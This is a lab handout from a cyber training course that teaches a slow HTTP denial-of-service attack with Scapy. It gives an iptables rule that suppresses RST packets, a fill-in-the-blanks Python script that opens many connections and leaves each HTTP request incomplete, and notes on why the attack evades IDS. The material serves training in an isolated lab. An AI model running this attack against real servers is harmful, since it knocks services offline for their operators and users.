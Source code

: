 :doctype: book
:stylesheet: ../../global-objects/resources/raw/master/css/stylefactoryfiles/_asciidoc.scss
:icons: image
:icondir: ../Images/adoc_icons

image::https://git.cybbh.space/global-objects/resources/raw/master/images/USACYSup001.png[Cyber,180,141]

{empty} +

Version Date: 20 November 2018

{empty} +

= Activity - DoS with Scapy

Scapy is a python based tool for packet crafting developed by Phillipe Biordi. It can easily manipulate any layer of the TCP/IP stack, even the application data.

Scapy is maintained at https://github.com/secdev/scapy.

In the first Scapy activity interaction was performed using the interactive shell mode. This activity introduces how Scapy is used as a python module. Python and raw sockets will be covered in detail in Section 2: Packet Creation and Manipulation.

This activity is performed using the net1 host to interact with nix1-net3 in the Openstack environment.

[blue]#_Note: Resources have been provided at the end of this document to assist you if needed. However, you should attempt this activity initially without using the resources._#

{empty} +

== Learning Objectives

* SKILL CCNE001: Networking Fundamentals ¹ ²
** CCNE001.001 Understanding the OSI model and Networking ¹
* SKILL CCNE002: Network Header fields ¹ ²
** CCNE002.001 Describe security implications present in header fields ²
* SKILL CCNE003: Layer 2 Switching Technologies ¹ ²

=== Outcomes

* By the end of the activity, students will identify the implications of insecure protocols. Students will use their comprehension of the first Scapy activity to perform a DoS attack on a web server. Students will use Scapy as a python module to craft network headers. Students will assess their effectiveness through traffic analysis.

{empty} +

---


*Initial Setup:* +

On the Web Server (nix1_net3), examine the network connections using the following command:
----
ss -antp
----

* The server should be listening on port 80

Perform the same command on the net1 host, and connect to the webpage nix1_net3 is hosting.

* You should see a connection to the nix1_net3 web server address at port 80 from the net1 address with an ephemeral high port.

{empty} +

*Block RST Packets Using IPTables* +

In order for the attack to work, packets marked with RST in the TCP header must be blocked, otherwise the Linux kernel will interfere and send RST marked packets back to the web server. The Kernel isn't aware that Scapy is creating the traffic and will respond with RST since it isn't expecting the incoming traffic. This is true with any raw socket implementation where a response is expected.

* Perform the following commands on the attacker host (net1) to prevent this from happening:
----
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
----
_This command configures the filter table's OUTPUT chain to drop TCP RST flags silently_

{empty} +

*Scripting with Scapy*

Previously, Scapy was used in interactive mode, now Scapy will be imported into Python to create a script.

* Create a Python script to attack the web server.

Type: +
----
 nano httpattack.py
----
_Use vim if you prefer_

* Read the comments and insert the necessary data where the question marks exist currently.

----
import sys
from scapy.all import *

target = ? #web server address in quotes (i.e. "10.x.x.x")
srcport = ? #source port from attacker (any ephemeral high value)
gets = ? #number of http get requests to issue

ip = IP()
ip.dst = target
print ip.summary()

for x in range(srcport, srcport+gets-1):
  tcp = TCP()
  tcp.dport = ? #port for http
  tcp.sport = x
  tcp.flags = ? #flag to initiate a three way handshake in quotes
  ans = sr1(ip/tcp, verbose=0) #send and receive once packet with ip and tcp
  tcp.seq = ans.ack
  tcp.ack = ans.seq + 1 #create the appropriate ACK response with a sequence number +1
  tcp.flags = "A"
  get = "GET / HTTP/1.1\r\nHost: " + target #craft HTTP header to the web server (see comments below for explanation)
  ans = sr1(ip/tcp/get, verbose=0) #send and receive the packet once with the IP header, TCP Header, and a HTTP Get Request
  print "Attack on Port ", x
----

Browsers follow link:https://www.w3.org/Protocols/rfc2616/rfc2616-sec2.html#sec2.2[RFC2616] section 2.2.
An example of a normal HTTP GET request with the minimum amount of elements is listed below:
----
GET / HTTP/1.1\r\n\r\n'
----
_What is missing in the script? This will be the basis for the attack._

* Chmod your python script after filling in the required parameters and issue the ss command on the web server to examine the changes.

{empty} +

* Limit the number of pids available to the nix2 web server to simulate resource exhaustion.

----
echo 301 > /proc/sys/kernel/pid_max
----

* Perform the attack against the net2 host again.

_Try accessing the webpage, what did you observe?_
_Is the nix2 host responsive via Openstack?_



*Putting it all together:*

The final carriage return and line feed are missing and the server cannot respond. The server keeps it's connection open since it is an incomplete request. Continuously sending HTTP GET requests opens multiple connections, the connection pool will be filled and legitimate connection attempts are denied since the maximum possible connections has been exceeded. +

The host server can only maintain a certain amount of threads for concurrent connections. Each thread will attempt to stay alive while waiting for the slow request to complete, which will never occur.  A benefit to this attack is that it is low bandwidth and only attempts to consume server resources as opposed to a more traditional brute force attack. Additionally, this attack can slip past IDS's due to sending partial packets opposed to malformed packets. +

With the understanding of the attack that was just performed, perform independent research to determine what the official name of the attack is.


== Hints
* N/A

== Challenge


== Useful Resources
* https://scapy.readthedocs.io/en/latest/index.html
* https://scapy.net/
* https://www.tutorialspoint.com/http/http_requests.htm
* link:https://www.w3.org/Protocols/rfc2616/rfc2616-sec2.html#sec2.2[RFC2616]
